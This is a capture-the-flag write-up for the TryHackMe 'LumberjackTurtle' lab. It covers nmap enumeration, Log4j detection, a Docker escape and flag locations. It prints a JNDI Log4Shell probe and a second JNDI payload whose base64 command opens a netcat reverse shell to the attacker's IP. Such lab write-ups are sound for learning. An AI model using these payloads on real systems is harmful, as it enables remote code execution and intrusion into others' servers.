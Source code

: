 >## THM LumberjackTurtle
## IP:10.10.204.88

# Enumeration

## Nmap

```
PORT   STATE SERVICE     VERSION
22/tcp open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6a:a1:2d:13:6c:8f:3a:2d:e3:ed:84:f4:c7:bf:20:32 (RSA)
|   256 1d:ac:5b:d6:7c:0c:7b:5b:d4:fe:e8:fc:a1:6a:df:7a (ECDSA)
|_  256 13:ee:51:78:41:7e:3f:54:3b:9a:24:9b:06:e2:d5:14 (ED25519)
80/tcp open  nagios-nsca Nagios NSCA
|_http-title: Site doesn't have a title (text/plain;charset=UTF-8).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

```

We see that we have 2 open ports 

80, 22


## Port 80

![1](https://user-images.githubusercontent.com/74853138/150634332-c034f5c8-9c3b-4fb6-b07a-8c8fa109d603.png)

Error

![2](https://user-images.githubusercontent.com/74853138/150634347-658e7c6d-9f1e-40d0-aa53-31198ae2396c.png)

## Log4j Detection
we will use this as payload

```
 ${jndi:ldap://10.18.0.53:4444}

```

![3](https://user-images.githubusercontent.com/74853138/150634483-325aeda2-6e82-4131-b6f5-2d5a8debee58.png)


so we have here a log4j vulnerabilty 

let's try get shell

## Shell


```
${jndi:ldap://192.168.43.129:1389/Basic/Command/Base64/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjE4LjAuNTMgNDQ0NCAgPi90bXAvZg==}

```


![4](https://user-images.githubusercontent.com/74853138/150634610-db5937f9-f139-41ce-94dc-29bc593582c9.png)


## User Flag.

```
user flag found in /opt/.flag1

```

## Docker escape and privilege.

```
we will mount dev/xvda in tmp 


Fun flag 
```
![5](https://user-images.githubusercontent.com/74853138/150634756-51c4c93a-d858-49ed-ab5f-6e79a4689a9d.png)

Let's try find the real flag

![6](https://user-images.githubusercontent.com/74853138/150634788-593858ac-a38d-4de6-8810-07996f067ace.png)

and voila got real root flag

![7](https://user-images.githubusercontent.com/74853138/150634802-98d3afcc-c14b-4653-a393-4e8edd3b40e7.png)

## Thanks for watching.
